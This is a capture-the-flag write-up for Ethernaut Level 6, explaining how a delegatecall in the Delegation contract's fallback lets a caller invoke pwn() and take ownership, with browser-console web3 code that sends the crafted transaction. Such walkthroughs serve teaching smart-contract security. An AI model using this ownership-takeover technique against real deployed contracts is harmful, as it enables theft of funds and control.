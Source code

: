 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/6-delegation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Example](#example)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/6-delegation-requirements.webp" width="800px"/>

## The hack

This level want us to understand the danger of using Delegate calls in a smart contract. [Delegate Calls](https://solidity-by-example.org/delegatecall/) are a powerful tool that allows a contract to delegate a function call to another contract. This is a very useful feature when building upgradable contracts, but it can also be very dangerous if not used correctly.

Basically, a delegate call is a low-level function that allows another contract to execute a function using the storage of the calling contract. This means that the delegate contract can modify the state of the calling contract.

### Example

> If `contractA` executes `delegatecall` to `contractB`, `contractB`'s code is executed with `contractA`'s storage, `msg.sender` and `msg.value`.

In this Ethernaut level, the `Delegation` contract (contractA in the previous example) has a `fallback` function that delegates the call to the `Delegate` contract (contractB).

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

By using a `delegatecall` to the `pwn` function, we will update the owner of the `Delegation` contract.

> NOTE: The storage slot order also plays an important role when using delegate calls. But will we explore this in the next levels. Here, since both contract only have one state variable, we don't need to worry about it.

## Solution

(In the browser's console)

1. Let's start by getting the selector of the `pwn()` function:

```javascript
const pwnSelector = web3.utils.keccak256("pwn()").slice(0, 10);
```

2. Then, call the `Delegation` contract's `fallback` function with the `pwn()` function selector:

```javascript
/**
 * @param {string} from - Your wallet address.
 * @param {string} to - Delegation instance address.
 * @param {string} data - The selector of the pwn() function: "0xdd365b8b".
 */
await web3.eth.sendTransaction({
  from: player,
  to: instance,
  value: "0",
  data: pwnSelector,
});
```

3. You can call the `owner()` function to check if the hack was successful:

```javascript
await contract.owner();
```

## Takeaway

- Use extreme caution when using delegate calls in your smart contracts.
- Make sure to understand the implications of using delegate calls and the potential security risks.
- <b>Delegate calls should not accept untrusted inputs.</b>

## Reference

Parity Wallet Hack: https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
